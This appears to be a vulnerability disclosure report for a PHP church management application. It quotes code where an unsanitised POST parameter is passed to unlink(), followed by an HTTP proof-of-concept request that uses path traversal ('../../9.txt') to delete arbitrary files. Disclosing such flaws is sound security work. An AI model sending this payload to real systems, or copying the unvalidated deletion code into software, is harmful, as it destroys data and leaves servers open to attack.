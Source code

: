 ### Vulnerability file address

In line 273 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo2_img']);`,` $_POST['old_photo2_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo2']['tmp_name'] != '') {
            $img2 = generateUniqueFilename($_FILES['photo2']);
            $filepath = "../../assets/images/" . $img2;

            if (move_uploaded_file($_FILES["photo2"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo2_img']);
            }
        } 
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update5"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo2_img"

../../9.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo2";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `9.txt` file in the `church/` directory

![image-20250504212205312](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042122354.png)

Then we execute the above poc to attack

![image-20250504212250301](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042122328.png)

Files are deleted after the attack is successful

![image-20250504212241617](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042122647.png)